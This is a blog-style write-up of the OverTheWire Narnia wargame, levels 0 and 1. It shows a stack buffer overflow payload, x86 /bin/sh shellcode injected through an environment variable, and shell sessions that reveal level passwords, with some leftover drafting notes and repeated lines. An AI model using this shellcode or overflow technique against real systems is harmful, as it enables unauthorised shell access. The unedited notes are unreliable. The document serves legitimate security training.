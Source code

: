 ```yaml
---
layout: post
title: Wargame/CTF Write-up - OverTheWire Narnia
tags: [Linux, Exploit, CTF, Wargame]
---
```


# Introduction to Narnia

[Narnia]() is one of OverTheWire's intermediate wargames.  There are a total of 10 levels which run on Linux/x86.  What follows below is the original description of Narnia (from intruded.net):

Description:

> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it. The difficulty of the game is somewhere between Leviathan and Behemoth, but some of the levels could be quite tricky.

Here's some additional information that is given pertaining to each game:

* Narnia's levels are called narnia0, narnia1, ..., etc.
* Passwords (flags) are in `/etc/narnia_pass/narniaX`.
* Levels are stored in /narnia/.  Each level contains a source code file and a corresponding executable.
* OTW provides the following SSH Information:

   ```
   Host: narnia.labs.overthewire.org
   Port: 2226
   ```

Narnia can be accessed with the below SSH command.  Use the following SSH command to login to each game.

```bash
clarissa@ubuntu:~$ ssh narnia0@narnia.labs.overthewire.org -p 2226
```

## Level 0

The credentials to login to the first level are given:

narnia0 (username) / narnia0 (password)

First, `cd` to /narnia/ where all the data is located.  View the source code for this level with `cat narnia0.c`.

```bash
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
```

This level is pretty simple and can be solved simply by looking at the source code.  Pay attention to the order in which the variables `val` and `buf` are declared.

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

After the two local variables are pushed onto `main`'s stack frame, the stack memory is arranged like so:

![narnia0]({{ site.baseurl }}/assets/img/narnia.png)


The arrow in the above diagram indicates the direction of the stack overwrite.  Because `buf` is placed higher up on the stack, we can write past `buf` and change the contents of `val`'s memory.  Twenty characters to fill `buf` plus another 4 for `0xdeadbeef` (in reversed order because of little-endian notation) will overwrite `val` with the correct value.

Due to the little-endian architecture, we must write those bytes into memory in reverse order.

The first character is the least significant byte, due to the little-endian architecture.  This means to control the value variable with something exact, you must write those bytes into memory in reverse order.

Python can execute instructions on the command-line using the -c switch.  print command is useful for generating sequences of characters.  This command executes the commands found between the single quotes.

Using Python with the `-c` switch will execute instructions on the command-line / process/generate one line of code.  I'll use this technique with `print()` to output a sequence of characters / the payload as a string of bytes.

`python -c 'print "A"*20 + "\xef\xbe\xad\xde"'`

Then, I'll pass the output from the Python command into the executable's input via pipe redirection.  The full command and response is shown below.

```bash
narnia0@narnia:/narnia$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Great, we successfully changed the contents of `val` from `0x41414141` to `0xdeadbeef`, but no shell?!  What happened here is that the shell closed before we were able to use it.  So, we need a way to force the shell to stay open.  This can be done using a trick that appends `cat` to the input to keep the shell open.

The trick is to append the cat command to the input
cat /etc/narnia_pass/narnia1
efeidiedae

The revised solution and shell is given below.

```bash
narnia0@narnia:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
**********
```

The shell elevates our privileges one level up.  Since we're logged in as narnia0, we'll be able to access files as narnia1.  Once in the shell, I'll usually confirm this escalation with `whoami` or `id` then read the flag with `cat /etc/narnia_pass/narnia1`.
The shell prompt runs with elevated privileges. gain a root shell.

## Level 1

SSH into narnia1 with the username `narnia1` and the password we found in the previous level.
ENV VAR, SHELLCODE INJ

Let's start by reading the source code file for `narnia1.c`.

```c
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```

The program is attempting to execute code at `getenv("EGG")`.  The function `getenv()` searches the environment of the calling process for the environment variable called "EGG" and returns a pointer to the value of the environment variable.  Otherwise, a null pointer is returned.

A buffer is not the only location that can hold shellcode.  There are other locations in memory where shellcode can be stashed.

Programs use environment variables

Environment variables are used by the user shell for a variety of things, but what they are used for isn’t as important as the fact they are located on the stack and can be set from the shell.
The example below sets an environment variable called MYVAR to the string test.
This environment variable can be accessed by prepending a dollar sign to its name. In addition, the env command will show all the  environment variables.

```
export MYVAR=test
echo $MYVAR
env
```

Similarly, the shellcode can be put in an environment variable, but first it needs to be in a form we can easily manipulate. The shellcode from the notesearch exploit can be used; we just need to put it into a file in binary form.
Shellcode in a file shellcode.bin. ** find in booksrc folder.

Using the below the command I was able to create the environment varible called “EGG” which will contain the shellcode. The shellcode is used to gain a shell, it is a “/bin/sh” payload.

So here we need to set an environment variable named EGG to something we want executed. We can't just pass /bin/bash as it's going to call whatever we give it as a function. Ideally we want a shell, so what we need in this case is the shellcode to do just that.
shellcode
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

Now we have the shellcode in a file.  This can be used with command substitution to put shellcode into an environment variable.
export SHELLCODE=$(perl -e 'print "\x90"x200')$(cat shellcode.bin)

An entire shell command can be executed like a function, returning its output in place.  The output of the command between the parentheses is substituted for the command.

The shellcode is now on the stack in an environment variable.  The env variables are located near the bottom of the stack.

```bash
narnia1@melinda:~$ cd /narnia
narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
$
```

